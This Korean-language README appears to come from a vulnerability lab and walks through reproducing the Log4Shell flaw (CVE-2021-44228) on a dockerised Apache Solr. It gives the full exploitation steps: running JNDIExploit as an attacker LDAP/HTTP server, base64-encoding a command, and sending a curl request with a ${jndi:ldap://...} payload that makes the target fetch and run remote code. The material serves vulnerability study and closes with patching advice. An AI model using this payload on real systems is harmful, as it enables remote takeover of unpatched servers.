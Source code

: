 # CVE-2021-44228

**Contributors**

-   [강성원(@rivercastleone)](https://github.com/rivercastleone)

<br/>

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
 공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취

- ![](exploit.png)

  JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 URL을 반환한다. 여기서 `"ldap://example.com/a"` 은 LDAP 서버의 주소를 나타낸다


<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
![](server.png)
-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄
![](web.png)
-   로그에서 params 필드가 있음을 확인
![](log.png) 
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-  `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/'base_encoding_command'}'`  를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨
![](attack.png)

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
